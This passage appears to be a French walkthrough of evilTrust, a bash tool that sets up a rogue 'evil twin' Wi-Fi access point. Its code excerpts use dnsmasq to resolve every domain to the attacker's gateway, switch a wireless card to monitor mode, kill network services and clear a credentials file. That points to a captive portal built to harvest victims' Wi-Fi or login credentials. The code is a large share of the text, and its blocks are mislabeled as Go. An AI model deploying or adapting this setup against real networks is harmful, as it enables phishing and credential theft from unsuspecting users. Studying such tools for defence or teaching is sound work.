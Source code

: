 ```go
	echo -e "listen-address=127.0.0.1\n" >> dnsmasq.conf
	echo -e "address=/#/192.168.1.1\n" >> dnsmasq.conf

	ifconfig $choosed_interface up 192.168.1.1 netmask 255.255.255.0
	sleep 1
	route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1
	sleep 1
	dnsmasq -C dnsmasq.conf -d > /dev/null 2>&1 &
    sleep 5
    ...    
```
Comme on peut le voir, pour le bon fonctionnement de l'outil, il est nécessaire d'avoir `php`, `dnsmasq` y `hostpad` installée. Si vous ne disposez pas de ces utilitaires, evilTrust se chargera d'installer tout le nécessaire pour pouvoir fonctionner.

Une fois la vérification effectuée, la fonction est appelée `startAttack`, où comme son nom l'indique... l'attaque commence à se déployer.

C'est dans cette phase où une série de fichiers temporaires nécessaires au déploiement de l'AP seront configurés, faisant fonctionner la carte réseau en mode Routeur (il est obligatoire que la carte réseau utilisée accepte le mode moniteur ) :

```go
function startAttack(){
	clear; if [[ -e credenciales.txt ]]; then
		rm -rf credenciales.txt
	fi

	echo -e "\n${yellowColour}[*]${endColour} ${purpleColour}Listando interfaces de red disponibles...${endColour}"; sleep 1

	# Si la interfaz posee otro nombre, cambiarlo en este punto (consideramos que se llama wlan0 por defecto)
	airmon-ng start wlan0 > /dev/null 2>&1; interface=$(ifconfig -a | cut -d ' ' -f 1 | xargs | tr ' ' '\n' | tr -d ':' > iface)
	counter=1; for interface in $(cat iface); do
		echo -e "\t\n${blueColour}$counter.${endColour}${yellowColour} $interface${endColour}"; sleep 0.26
		let counter++
	done; tput cnorm
	checker=0; while [ $checker -ne 1 ]; do
		echo -ne "\n${yellowColour}[*]${endColour}${blueColour} Nombre de la interfaz (Ej: wlan0mon): ${endColour}" && read choosed_interface

		for interface in $(cat iface); do
			if [ "$choosed_interface" == "$interface" ]; then
				checker=1
			fi
		done; if [ $checker -eq 0 ]; then echo -e "\n${redColour}[!]${endColour}${yellowColour} La interfaz proporcionada no existe${endColour}"; fi
	done

	rm iface 2>/dev/null
	echo -ne "\n${yellowColour}[*]${endColour}${grayColour} Nombre del punto de acceso a utilizar (Ej: wifiGratis):${endColour} " && read -r use_ssid
	echo -ne "${yellowColour}[*]${endColour}${grayColour} Canal a utilizar (1-12):${endColour} " && read use_channel; tput civis
	echo -e "\n${redColour}[!] Matando todas las conexiones...${endColour}\n"
	sleep 2
	killall network-manager hostapd dnsmasq wpa_supplicant dhcpd > /dev/null 2>&1
	sleep 5

	echo -e "interface=$choosed_interface\n" > hostapd.conf
	echo -e "driver=nl80211\n" >> hostapd.conf
```